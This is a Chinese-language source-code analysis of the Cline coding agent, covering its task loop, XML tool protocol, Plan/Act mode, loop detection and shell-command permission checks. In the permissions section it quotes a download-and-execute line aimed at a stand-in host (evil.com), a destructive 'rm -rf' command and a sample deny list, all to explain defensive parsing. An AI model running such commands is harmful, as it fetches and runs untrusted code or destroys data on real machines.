


<section class="doc-hero">
  <p class="doc-hero__kicker">Agent 源码解析</p>
  <h1>Cline 源码剖析</h1>
  <p class="doc-hero__lead">Cline（前身 Claude Dev）是 2024 年开源编程 Agent 里最早把"Plan/Act 模式分离"做成 first-class 设计的产品。62k+ star、和 Continue.dev/RooCode 一起撑起了"VSCode 内置 AI 编程 Agent"的开源生态。2025 年它把核心抽出成可独立分发的 SDK，让"VSCode 插件"只是消费 SDK 的一种形态。本文聚焦真实源码——VSCode 插件里 3764 行的 Task 类、SDK 里 1544 行的 AgentRuntime，以及独立的 Loop Detection、Command Permission 两套机制。</p>
  <div class="doc-hero__meta" aria-label="本文信息">
    <span>仓库：cline/cline · TypeScript · 62k+ star · Apache-2.0</span>
    <span>架构：双层 (legacy Task + new AgentRuntime SDK)</span>
    <span>本文覆盖：Task loop、AgentRuntime、Plan/Act、Loop Detection、Permission</span>
  </div>
</section>

> **资料来源声明**：本文基于 2026 年中 [cline/cline](https://github.com/cline/cline) 主仓库的真实源码（已 clone 分析）。所有文件路径、类名、行号、函数签名都直接来自仓库。Cline 是 Apache-2.0 开源、TypeScript 实现，本文展示的代码都标注精确路径。

## 为什么读 Cline 源码

Cline 处在一个有意思的位置——它的设计被 Anthropic 的 Claude Code 学过去（Plan mode、tool 协议），同时它又借鉴了 Aider 的 reflexion 思路、OpenHands 的事件流。读 Cline 源码相当于看一个**开源编程 Agent 的"集大成实践"**——产品迭代两年后沉淀下来的工程选择。

它的几个独特设计值得拆：

- **VSCode 内嵌 vs SDK 独立分发**：同一套核心代码怎么既适配 IDE 又能脱离 IDE
- **XML 工具调用协议**：不是用 OpenAI/Anthropic 的原生 function calling，而是让 LLM 输出 XML 块
- **Plan/Act 双 mode 是工具而非状态**：用两个特殊工具 `plan_mode_respond` 和 `act_mode_respond` 实现，而不是全局开关
- **Loop Detection 用工具调用签名**：识别"反复用相同参数调同一工具"的死循环
- **Command Permission 用 shell-quote 解析**：真正的 shell 词法分析，不是字符串匹配

读源码能回答这些问题：

```
- Plan Mode 用户审过 → Act Mode 执行，状态怎么切换的？yolo mode 怎么自动切？
- 为什么 Cline 用 XML 协议而不是 Anthropic 原生 tool_use？
- Loop Detection 怎么区分"合法重复"（如 browser 截图）和"卡住循环"？
- Bash 命令权限怎么检查 `cd /tmp && rm -rf .`？
- VSCode 插件的 Task 类 3764 行——核心循环到底有多复杂？
- 新的 AgentRuntime SDK 和老的 Task 类是什么关系？为什么并存？
```

## 仓库总览：双层架构

```
cline/                            # 仓库根
├── apps/
│   ├── vscode/                   # ★ VSCode 插件（最早、最完整）
│   │   ├── src/core/
│   │   │   ├── task/             # Task 类与工具循环
│   │   │   │   ├── index.ts      # Task 主类 (3764 行)
│   │   │   │   ├── ToolExecutor.ts
│   │   │   │   ├── loop-detection.ts
│   │   │   │   ├── focus-chain/  # 任务焦点追踪
│   │   │   │   └── tools/handlers/  # 23 个工具处理器
│   │   │   ├── context/context-management/
│   │   │   │   └── ContextManager.ts  # (1295 行)
│   │   │   ├── permissions/      # CommandPermissionController
│   │   │   ├── slash-commands/   # /compact /plan 等
│   │   │   ├── prompts/
│   │   │   ├── webview/          # UI 通信
│   │   │   └── hooks/
│   │   ├── proto/                # gRPC IDL 定义
│   │   └── package.json
│   ├── cli/                      # CLI 版本
│   ├── cline-hub/                # Skills/MCP marketplace
│   └── examples/
├── sdk/                          # ★ 新的可分发 SDK
│   └── packages/
│       ├── agents/               # AgentRuntime
│       │   └── src/
│       │       └── agent-runtime.ts (1544 行)
│       ├── core/                 # ClineCore + 会话管理
│       │   └── src/
│       │       ├── ClineCore.ts (566 行)
│       │       ├── session/      # checkpoints
│       │       └── services/
│       ├── llms/                 # LLM provider 适配
│       ├── sdk/                  # Public API
│       └── shared/
├── walkthrough/                  # 用户教程内容
└── evals/                        # 评测脚本
```

**关键观察**：Cline 现在是**双层架构**——

- **`apps/vscode/src/core/`**：传统 VSCode 插件代码，仍是功能最完整的实现。`Task` 类 3764 行包含所有工具调用、状态管理、UI 通信逻辑
- **`sdk/packages/`**：2025 年新拆出的可独立分发 SDK。`AgentRuntime` 是新的、更干净的 Agent 抽象，目标是让"Cline 跑在 IDE 外"成为可能

新代码不是简单替代旧代码——它在并行进化。VSCode 插件的功能更全（Plan/Act、checkpoints、focus chain、所有 tool handler 都有），SDK 提供更干净的 API（hooks、event listeners、可移植）。

这种"重构中的双层"是大型开源项目的常态——读源码时要分清你看的是哪一层。本文两层都会拆。

## 整体架构

VSCode 插件那一层的执行流：



三个最关键的特殊性：

**1. XML 协议替代 native tool_use**

Cline 默认让 LLM 在 prompt 里看到工具定义为 XML 块格式（如 `<read_file><path>...</path></read_file>`），LLM 也按 XML 输出。Cline 自己解析 XML 提取工具调用。这是 Cline 比 Aider 的 SEARCH/REPLACE 路线更结构化的部分，又比 Claude Code 的 native function calling 更兼容（任何 LLM 都能写 XML）。

**2. Plan/Act 不是状态切换，是两个特殊工具**

`plan_mode_respond` 和 `act_mode_respond` 是两个工具。Plan mode 下只允许调 plan_mode_respond + 只读工具；Act mode 下只允许 act_mode_respond + 所有写工具。用户在 UI 里切换 mode 时，可用工具集就变。这种"用工具暴露 mode"的设计避免了把 mode 做成全局 state，每条消息都通过 system prompt 反复提醒模型当前 mode。

**3. Loop Detection 是 first-class 安全机制**

每次工具调用前都检查"是不是又调了同样参数的同样工具"。soft/hard 两级阈值给 LLM 一次自我修正的机会。这和 OpenHands 的 StuckDetector 思路一致但实现更轻——只看"相邻 N 次调用相同性"，不做语义分析。

接下来逐模块拆。

## 模块 1：Task 主循环（VSCode 层）

**职责**：把用户输入翻成 LLM 调用、解析响应里的 XML 工具块、执行工具、循环直到完成。

**关键文件**：`apps/vscode/src/core/task/index.ts`（3764 行）

### 1.1 类结构

```typescript
// apps/vscode/src/core/task/index.ts:159
export class Task {
    // ... 数十个字段 ...
    taskState: TaskState                 // 全局状态（迭代次数、连续错误数、loop counter 等）
    api: ApiHandler                      // LLM provider 抽象
    messageState: MessageStateHandler    // 消息历史
    toolExecutor: ToolExecutor           // 工具执行器
    contextManager: ContextManager       // 上下文压缩
    // ...
}
```

3764 行的类是 Cline 的"上帝对象"——所有功能都挂在 Task 上。这是 VSCode 插件长期演进留下的技术债，新的 SDK 路线就是为了清理这套。但读懂 Task 仍是理解 Cline 行为的关键。

### 1.2 核心方法链

```
initiateTaskLoop(userContent)        # 入口
  → recursivelyMakeClineRequests()   # 递归执行
      → attemptApiRequest()           # 单次 LLM 调用（流式）
      → 解析响应里的 XML 工具块
      → toolExecutor.execute(toolBlock)
      → 把工具结果作为新的 user message
      → 递归继续 recursivelyMakeClineRequests()
```

`recursivelyMakeClineRequests` 是 Task 的核心循环（在 index.ts 第 2354 行附近）。它是个 **async function**，不是 while loop——通过递归实现"调一次 → 解析 → 工具执行 → 再调一次"。

为什么用递归？因为每次工具执行后 messages 数组的状态需要传给下一次调用。递归让"上一轮的工具结果"自然变成"下一轮的 user message"，不需要外部 state 机器。

代价是栈深度——长任务可能跑几十上百轮，递归栈会很深。Node.js 默认栈足够，但极端情况可能爆栈。Cline 在某些版本里改成迭代加协程，但主线代码仍是递归。

### 1.3 attemptApiRequest：流式 + 重试

```typescript
// apps/vscode/src/core/task/index.ts:1865
async *attemptApiRequest(previousApiReqIndex: number): ApiStream {
    // ... (省略 200+ 行的初始化、context 处理) ...
}
```

返回 `ApiStream`（AsyncGenerator）——和 Claude Agent SDK 同样的设计模式。流式 yield 出 chunk，调用方边收边渲染。

attemptApiRequest 处理三件事：

1. **上下文准备**：把消息序列、系统提示、文件 mentions、checkpoint 信息拼成 final messages
2. **调 LLM provider**：通过 `api.createMessage(messages, systemPrompt)` 抽象层调任何 provider
3. **错误恢复**：context 超限时触发自动 truncation，rate limit 时退避重试

注意 attemptApiRequest 是 generator——`yield* this.attemptApiRequest(...)` 把整个流委派给递归调用，调用方仍能直接消费 chunks。这是 generator 委派模式的典型用法。

### 1.4 工具调用解析（XML 协议）

LLM 流式输出的文本里包含 XML 块，例如：

```
我先看一下 auth.ts 文件：

<read_file>
<path>src/auth.ts</path>
</read_file>
```

Cline 在 `apps/vscode/src/core/assistant-message/` 里实现 XML 解析。它不是用 XML parser（那会过严，LLM 偶尔生成不严格的 XML），而是自己写的容错解析器——专门为 LLM 输出的"接近 XML"格式调过。

**为什么用 XML 而非 native function calling**？几个原因：

- **兼容性最广**：所有 LLM 都能输出 XML，包括开源模型、不支持 function calling 的旧模型
- **流式友好**：XML 块可以增量解析（看到 `<read_file>` 标签就能知道在调 read_file）
- **可见性**：用户在 UI 里看到的就是模型输出的原始 XML，比 function calling 的"看不见的 JSON" 更透明
- **历史包袱**：Cline 早期没有 native function calling 可用，XML 是当时的最优解

代价是**消耗的 token 多**——XML 比 JSON 啰嗦，工具描述（system prompt 里）和工具调用（output 里）都长。Claude Code 用 native function calling 的同等工具集占的 token 大约只有 XML 协议的 50-70%。

Cline 后期加了对 native function calling 的可选支持（某些 model 配置），但默认仍是 XML——保证最大兼容性。

## 模块 2：Plan / Act 模式

**职责**：分离"规划"和"执行"两个阶段，让用户能在 Agent 改文件前审过方案。

**关键文件**：
- `apps/vscode/src/core/task/tools/handlers/PlanModeRespondHandler.ts`（154 行）
- `apps/vscode/src/core/task/tools/handlers/ActModeRespondHandler.ts`

### 2.1 不是 state，是两个工具

Claude Code 把 Plan Mode 实现成 PermissionMode 的一个值（全局 state）。Cline 用更聪明的设计——**两个特殊工具**：

```
Plan mode 下，LLM 可用工具集：
  read_file, list_files, search_files, list_code_definition_names,
  plan_mode_respond              ← 唯一允许的"产出"工具
  
Act mode 下，LLM 可用工具集：
  read_file, write_to_file, replace_in_file, execute_command, ...
  act_mode_respond               ← 唯一允许的"产出"工具
```

当用户从 UI 切到 Plan mode 时：

1. 可用工具集变更（plan_mode_respond 加进来，act_mode_respond 移除）
2. system prompt 里加入 plan mode 的指令
3. LLM 看到新工具集 + 新 prompt，自然按 plan 行为响应

这种设计的好处：

- **可见性**：mode 不是隐式 state，每条消息的 system prompt 都明确告诉 LLM 当前 mode
- **回放友好**：从历史 messages 就能重建出每条 message 处于什么 mode
- **扩展性**：要加新 mode（如 review mode、refactor mode），只要加新工具 + 调 prompt，不动核心循环

### 2.2 needs_more_exploration 逃生口

PlanModeRespondHandler 的注释道出一个真实的设计教训：

```typescript
// apps/vscode/src/core/task/tools/handlers/PlanModeRespondHandler.ts:49
// The plan_mode_respond tool tends to run into this issue where the model 
// realizes mid-tool call that it should have called another tool before 
// calling plan_mode_respond. And it ends the plan_mode_respond tool call 
// with 'Proceeding to reading files...' which doesn't do anything because 
// we restrict to 1 tool call per message. As an escape hatch for the model, 
// we provide it the optionality to tack on a parameter at the end of its 
// response `needs_more_exploration`, which will allow the loop to continue.
if (needsMoreExploration) {
    return formatResponse.toolResult(
        `[You have indicated that you need more exploration. Proceed with calling tools to continue the planning process.]`,
    )
}
```

**问题**：LLM 在 plan 模式下经常"半路改变主意"——开始打算用 `plan_mode_respond` 总结方案，写到一半发现"还需要读更多文件"。但 Cline 限制每条消息只能调一个工具，所以这条消息就废了。

**Cline 的解法**：给 `plan_mode_respond` 加一个 `needs_more_exploration` 可选参数。LLM 把它设为 true 时，Cline 把工具调用结果解释为"继续探索"，循环不终止。

这种"被产品现实教育出来的逃生口"在源码里有很多——读源码时遇到看似多余的参数，注释里通常有真实故事。

### 2.3 ActModeRespondHandler 的 narration loop 防御

Act mode 的对应处理器有另一个有意思的防御：

```typescript
// apps/vscode/src/core/task/tools/handlers/ActModeRespondHandler.ts:42
// Block consecutive act_mode_respond calls to prevent narration loops
```

LLM 在 Act 模式下偶尔会陷入"叙述循环"——一直 act_mode_respond 描述"我接下来要做什么"，但不实际调工具。ActModeRespondHandler 检测"连续两次 act_mode_respond"就报错强制 LLM 改用真实工具。

### 2.4 YOLO mode：自动从 Plan 切到 Act

```typescript
// apps/vscode/src/core/task/tools/handlers/PlanModeRespondHandler.ts:70
// Auto-switch to Act mode while in yolo mode
if (config.mode === "plan" && config.yoloModeToggled && !needsMoreExploration) {
    // Trigger automatic mode switch
    const switchSuccessful = await config.callbacks.switchToActMode()
    // ...
}
```

YOLO mode 是 Cline 的"全自动模式"——用户开启后，Plan mode 写完方案不等审批，自动切到 Act mode 执行。这是为"完全无人值守"场景设计的，但也是高风险——失去了 Plan/Act 分离的核心价值（人工审过方案）。

源码里这种 yolo 路径占的代码不多，但散落在多个 handler 里——说明这个功能是后期加的特性。

## 模块 3：Loop Detection

**职责**：检测"LLM 反复用相同参数调同一工具"的死循环。

**关键文件**：`apps/vscode/src/core/task/loop-detection.ts`（68 行，全文短小精悍）

### 3.1 核心逻辑

```typescript
// apps/vscode/src/core/task/loop-detection.ts:21
export const LOOP_DETECTION_SOFT_THRESHOLD = 3
const LOOP_DETECTION_HARD_THRESHOLD = 5

// Params that are metadata/tracking, not tool-relevant input.
const IGNORED_PARAMS = new Set(["task_progress"])

export function toolCallSignature(params: Partial<Record<string, string>> | undefined): string {
    if (!params) return "{}"
    const keys = Object.keys(params)
        .filter((k) => !IGNORED_PARAMS.has(k))
        .sort()
    return JSON.stringify(params, keys)
}

export function checkRepeatedToolCall(
    state: TaskState, 
    toolName: string, 
    currentSignature: string
): LoopDetectionResult {
    if (toolName === state.lastToolName && currentSignature === state.lastToolParams) {
        state.consecutiveIdenticalToolCount++
    } else {
        state.consecutiveIdenticalToolCount = 1
    }

    return {
        softWarning: state.consecutiveIdenticalToolCount === LOOP_DETECTION_SOFT_THRESHOLD,
        hardEscalation: state.consecutiveIdenticalToolCount === LOOP_DETECTION_HARD_THRESHOLD,
    }
}
```

整个 68 行的文件就这么简单。但每行都有理由：

**(a) `toolCallSignature` 用 JSON.stringify replacer 排序 keys**

```typescript
return JSON.stringify(params, keys)
```

`JSON.stringify` 的第二个参数 keys 既是过滤器又是排序器——keys 数组里的字段才会被序列化，且按 keys 的顺序。`keys.sort()` 之后输出就是确定性的"已排序键的 JSON"。这让 `{path: "a", line: 1}` 和 `{line: 1, path: "a"}` 产生相同签名。

**(b) `IGNORED_PARAMS` 排除元数据字段**

```typescript
const IGNORED_PARAMS = new Set(["task_progress"])
```

Cline 的 `task_progress` 参数是 LLM 用来汇报进度的——内容每次都变（进度推进），但工具语义没变。把它从签名里排除，避免把"合法重复但 metadata 不同"误判为"非重复"。

**(c) 两级阈值**

- `SOFT_THRESHOLD = 3`：注入一条警告 message，给 LLM "一次自我修正机会"
- `HARD_THRESHOLD = 5`：升级到用户或失败任务

为什么这样设？因为有些工具的合法重复是正常的——比如 `browser_action` 持续截图。soft 阶段先警告，LLM 看到警告通常能识别"哦我在循环"并改策略。hard 阶段才停。

### 3.2 在 ToolExecutor 里的调用点

`checkRepeatedToolCall` 在 ToolExecutor 执行任何工具前调用。soft 触发时把警告作为工具结果返回，hard 触发时直接抛错让 Task 终止。

### 3.3 与 OpenHands StuckDetector 对比

| 维度 | Cline LoopDetection | OpenHands StuckDetector |
|---|---|---|
| 代码量 | 68 行 | 320 行 |
| 检测模式 | 1 种（同工具同签名重复） | 4 种（action-obs / action-error / monologue / alternating） |
| 实时性 | 每次工具调用前检查 | 每个 step 间隙检查 |
| 处理粒度 | per-tool-call 级 | per-event 级 |
| 处理方式 | soft warning + hard stop | stuck → stop |

Cline 的设计简单粗暴但够用——产品迭代里发现"一类问题"（反复同样工具）能 cover 80% 死循环。OpenHands 的设计更完备但复杂。两种选择没有绝对对错。

## 模块 4：Command Permission

**职责**：基于 allow/deny 列表 + glob pattern 决定哪些 shell 命令可以执行。

**关键文件**：`apps/vscode/src/core/permissions/CommandPermissionController.ts`（384 行）

### 4.1 配置 schema

```typescript
// apps/vscode/src/core/permissions/CommandPermissionController.ts
// Configuration is read from the CLINE_COMMAND_PERMISSIONS environment variable.
// Format: {"allow": ["pattern1", "pattern2"], "deny": ["pattern3"], "allowRedirects": true}
```

用户通过环境变量 `CLINE_COMMAND_PERMISSIONS` 设 JSON。例子：

```json
{
    "allow": ["npm test", "npm run *", "git status", "ls *"],
    "deny": ["rm -rf *", "curl *"],
    "allowRedirects": false
}
```

### 4.2 为什么不能简单字符串匹配

```typescript
// apps/vscode/src/core/permissions/CommandPermissionController.ts:31
// Rule evaluation for chained commands (e.g., "cd /tmp && npm test"):
// 1. Parse command into segments split by operators (&&, ||, |, ;)
// 2. Check for dangerous characters (backticks outside single quotes, newlines outside quotes)
// 3. If redirects detected and allowRedirects !== true → DENIED
// 4. Validate EACH segment against allow/deny rules - ALL must pass
// 5. Recursively validate any subshell contents
// 6. If no rules are defined (env var not set) → ALLOWED (backward compatibility)
```

考虑这条命令：

```bash
cd /tmp && curl https://evil.com/x.sh | bash
```

如果只对整条命令做 glob 匹配，攻击者可以用 `cd /tmp && <恶意命令>` 这种组合绕过——"cd /tmp" 在白名单里，但 `&& curl ...` 才是危险部分。

Cline 的策略是**真正的 shell 词法分析**：

1. 用 `shell-quote` 库把命令解析成 token 流
2. 找出 separator operator（`&&`、`||`、`|`、`;`）
3. 把命令拆成 segments，每段是一个独立子命令
4. 对每段单独走 allow/deny 检查
5. 遇到子 shell（`$(...)`、`(...)`）递归 parse 内部内容

```typescript
const REDIRECT_OPERATORS = new Set([">", ">>", "<", ">&", "<&", "|&", "<(", ">("])
const COMMAND_SEPARATOR_OPERATORS = new Set(["&&", "||", "|", ";"])
```

### 4.3 危险字符识别

Cline 显式枚举多种 Unicode 行分隔符（`\n`、`\r`、`U+2028`、`U+2029`、`U+0085`）——attacker 可能用这些"非常见行分隔符"绕过基于普通换行的 split。源码里这块是个细节防御点。

### 4.4 backtick 与重定向

```
backtick：`cmd`  ← 命令替换，等价于 $(cmd)
redirect：> file ← 输出到文件
```

backtick 总是被拒绝（用户应该改用 `$(cmd)` 显式 subshell）。redirect 默认拒绝，需要 `allowRedirects: true` 才放过——因为 `>` 可以覆盖任意文件（攻击向量）。

### 4.5 与 Claude Code Permission Mode 对比

| 维度 | Cline CommandPermission | Claude Code PermissionMode |
|---|---|---|
| 粒度 | per-command pattern | per-tool global mode |
| 灵活性 | 极高（允许 "git status"，拒绝 "git push"） | 中（要么所有 Bash 放行，要么所有 Bash 弹窗） |
| 学习成本 | 高（要懂 glob + shell 语法） | 低（4 个 mode） |
| 配置方式 | JSON 环境变量 | UI 切换 |
| 适用场景 | 生产 / 团队规则 / CI | 个人开发交互 |

两种设计各有定位。Cline 的细粒度规则更适合"我对 Agent 部分信任，允许它跑某些命令但不允许跑别的"的场景。Claude Code 的简单 mode 更适合个人交互。

## 模块 5：SDK 层的 AgentRuntime

**职责**：把 Agent 核心逻辑从 VSCode 插件中解耦，让 Cline 能脱离 IDE 跑。

**关键文件**：`sdk/packages/agents/src/agent-runtime.ts`（1544 行）

### 5.1 类设计

```typescript
// sdk/packages/agents/src/agent-runtime.ts:339
export class AgentRuntime {
    private config: Required<Pick<BaseAgentRuntimeConfig, "toolExecution">> & BaseAgentRuntimeConfig
    private readonly listeners = new Set<AgentEventListener>()
    private readonly tools = new Map<string, AgentTool<any, any>>()
    private hooks: HookBag = {
        beforeRun: [],
        afterRun: [],
        beforeModel: [],
        afterModel: [],
        beforeTool: [],
        afterTool: [],
        onEvent: [],
    }
    private readonly state = {
        agentId: "",
        agentRole: undefined as string | undefined,
        parentAgentId: undefined as string | null | undefined,
        runId: undefined as string | undefined,
        status: "idle" as AgentRuntimeStateSnapshot["status"],
        iteration: 0,
        messages: [] as AgentMessage[],
        pendingToolCalls: [] as string[],
        usage: cloneUsage(DEFAULT_USAGE),
        lastError: undefined as string | undefined,
    }
    private initialization?: Promise<void>
    private abortController?: AbortController

    constructor(config: AgentRuntimeConfig) { /* ... */ }

    async run(input: AgentRunInput): Promise<AgentRunResult> { /* ... */ }
    async continue(input?: AgentRunInput): Promise<AgentRunResult> { /* ... */ }
    abort(reason?: unknown): void { /* ... */ }
    subscribe(listener: AgentEventListener): () => void { /* ... */ }
    restore(messages: readonly AgentMessage[]): void { /* ... */ }
    snapshot(): AgentRuntimeStateSnapshot { /* ... */ }
}
```

注意这是个**清爽的类**——只有 state、hooks、listeners、tools。和 Task 类 3764 行的"上帝对象"完全不同风格。

### 5.2 七层 Hook

```typescript
private hooks: HookBag = {
    beforeRun: [],      // 整个 run 开始前
    afterRun: [],       // 整个 run 结束后
    beforeModel: [],    // 每次 LLM 调用前
    afterModel: [],     // 每次 LLM 调用后
    beforeTool: [],     // 每次工具执行前
    afterTool: [],      // 每次工具执行后
    onEvent: [],        // 所有 runtime event
}
```

比 Claude Code 的 4 个 Hook 时机（UserPromptSubmit / PreToolUse / PostToolUse / Stop）更细。`beforeModel` 让你能改 messages、加 system prompt 注入；`afterModel` 让你能改 LLM 输出。

### 5.3 execute() 主循环

```typescript
// sdk/packages/agents/src/agent-runtime.ts:528
private async execute(input?: AgentRunInput): Promise<AgentRunResult> {
    await this.ensureInitialized()
    if (this.state.status === "running") {
        throw new Error("Agent runtime is already running")
    }

    this.abortController = new AbortController()
    this.state.runId = createUID("run")
    this.state.status = "running"
    this.state.iteration = 0
    this.state.pendingToolCalls = []
    this.state.lastError = undefined
    this.state.usage = cloneUsage(DEFAULT_USAGE)

    try {
        await this.callBeforeRunHooks()
        await this.emit({ type: "run-started", snapshot: this.snapshot() })

        for (const message of input ? normalizeInput(input) : []) {
            this.state.messages.push(message)
            await this.emit({ type: "message-added", snapshot: this.snapshot(), message })
        }

        // ... reminder 处理 ...

        let finalAssistantMessage: AgentMessage | undefined

        while (
            this.config.maxIterations === undefined ||
            this.state.iteration < this.config.maxIterations
        ) {
            this.throwIfAborted()

            this.state.iteration += 1
            await this.emit({ type: "turn-started", snapshot: this.snapshot(), iteration: this.state.iteration })

            const { message, finishReason } = await this.generateAssistantMessage()
            finalAssistantMessage = message
            this.state.messages.push(message)
            await this.emit({ type: "message-added", snapshot: this.snapshot(), message })
            await this.emit({ type: "assistant-message", snapshot: this.snapshot(), iteration: this.state.iteration, message, finishReason })

            if (finishReason === "aborted") {
                throw this.normalizeAbortError()
            }

            const toolCalls = message.content.filter(
                (part: AgentMessagePart): part is AgentToolCallPart => part.type === "tool-call",
            )
            if (finishReason === "error" && toolCalls.length === 0) {
                throw new Error(this.state.lastError ?? "Model stream failed")
            }
            this.state.pendingToolCalls = toolCalls.map((part) => part.toolCallId)

            if (toolCalls.length === 0) {
                await this.emit({ type: "turn-finished", snapshot: this.snapshot(), iteration: this.state.iteration, toolCallCount: 0 })
                // ... 处理 completion reminder ...
                const result = this.finishRun("completed", finalAssistantMessage)
                await this.callAfterRunHooks(result)
                await this.emit({ type: "run-finished", snapshot: this.snapshot(), result })
                return result
            }

            const toolMessages = await this.executeToolCalls(toolCalls)
            this.state.pendingToolCalls = []
            for (const toolMessage of toolMessages) {
                this.state.messages.push(toolMessage)
                await this.emit({ type: "message-added", snapshot: this.snapshot(), message: toolMessage })
            }
        }
    } finally {
        // cleanup
    }
}
```

对比 Task 的递归 + AsyncGenerator 设计，AgentRuntime 是**显式 while 循环**：

- **状态显式**：所有状态在 `this.state` 里，方便 snapshot + serialize
- **事件统一**：所有交互都 emit 事件，listeners 订阅
- **maxIterations 内置**：硬性循环上限保护
- **AbortController 取消**：标准 Web API，跨平台

这个设计是从 Claude Agent SDK、OpenAI Agents SDK 等学来的——**Agent 状态作为可观察对象 + 显式 step 循环**。

### 5.4 restore() 与持久化

```typescript
// sdk/packages/agents/src/agent-runtime.ts:420
restore(messages: readonly AgentMessage[]): void {
    this.abort("Agent state restored")
    this.state.runId = undefined
    this.state.status = "idle"
    this.state.iteration = 0
    this.state.pendingToolCalls = []
    this.state.usage = cloneUsage(DEFAULT_USAGE)
    this.state.lastError = undefined
    this.state.messages = cloneMessages(messages)
    this.config = {
        ...this.config,
        initialMessages: cloneMessages(messages),
    }
}
```

`restore()` 用一组 messages 重置 Agent 状态——保留 listeners、tools、hooks、plugins、model 配置，只重置运行状态。

设计意图（注释里说得清楚）：

```typescript
// Useful for standalone callers that persist conversations externally and
// want to re-seed the runtime from storage without recreating subscribers.
```

让 SDK 用户能用自己的存储（如数据库）持久化对话——读出 messages 后调 restore() 重建 Agent，UI subscribers 不丢。

### 5.5 toolExecution: "sequential" vs "parallel"

```typescript
this.config = {
    ...resolved,
    toolExecution: resolved.toolExecution ?? "sequential",
}
```

配置项支持串行或并行执行工具。串行更安全（一个失败不影响下一个的判断），并行更快（独立工具同时跑）。默认串行。

`executeToolCalls()` 根据配置选择执行策略：

```typescript
if (config.toolExecution === "parallel") {
    results = await Promise.all(
        prepared.map((execution) => this.executePreparedTool(execution)),
    )
} else {
    for (const execution of prepared) {
        results.push(await this.executePreparedTool(execution))
    }
}
```

简单的并行/串行切换，但语义清晰。

## 关键执行流程：从 VSCode UI 到工具落地

把 VSCode 层串起来：



注意流程里的关键时刻：

- **第 6 步**：LLM 输出 XML 块，Cline 自己解析
- **第 7 步**：Loop Detection 在每次工具调用前检查
- **第 11-12 步**：Plan mode 下唯一允许的"产出"是 plan_mode_respond，触发 UI 显示方案
- **第 14 步**：用户审过切 Act mode，可用工具集变了，重新调 LLM
- **第 18 步**：Command Permission 在 Bash 命令执行前做完整解析检查

## 工程亮点：可借鉴的设计

### 亮点 1：Plan/Act 用"工具"暴露而非全局状态

把 Plan mode 和 Act mode 实现为两个特殊工具（plan_mode_respond / act_mode_respond），而不是 PermissionMode 这种全局 state。

**为什么聪明**：mode 通过工具暴露给 LLM，每条 system prompt 都明确告诉 LLM 当前能做什么。LLM 不会"忘了自己在 plan mode"。

**怎么借鉴**：做模式系统时，问自己"这个 mode 怎么让 LLM 实时感知到？"——答案如果是"通过 system prompt"，就考虑把 mode 实现为"暴露给 LLM 的不同工具集 + 不同 prompt"，比全局 state 鲁棒。

### 亮点 2：LoopDetection 的 SOFT/HARD 二级阈值

不是触发就停，而是先 soft 警告给 LLM 一次自我修正机会，再 hard 升级。

**为什么聪明**：LLM 看到 "you've called the same tool 3 times in a row, are you stuck?" 通常能识别 + 改策略。直接 hard stop 会让一些"差一步就能成功"的任务失败。

**怎么借鉴**：检测类机制（rate limit、stuck detection、quota）尽量做两级——先提醒可修正、再硬停。给被检测者一次自纠机会。

### 亮点 3：toolCallSignature 用 JSON.stringify replacer

```typescript
return JSON.stringify(params, keys)
```

一行代码完成"过滤 + 排序 + 序列化"。

**怎么借鉴**：做"hash 一个对象用于比较"时，JSON.stringify 的 replacer 参数是个被低估的工具。配合 `Object.keys().sort()` 一行解决"对象指纹"问题。

### 亮点 4：CommandPermission 用真正的 shell 词法分析

不是字符串 match，而是用 shell-quote 解析 token 流，识别 operator，递归处理子 shell。

**为什么聪明**：能正确处理 `cd /tmp && rm -rf .`、`cmd; cmd2`、`$(evil)` 等组合，glob 匹配做不到。

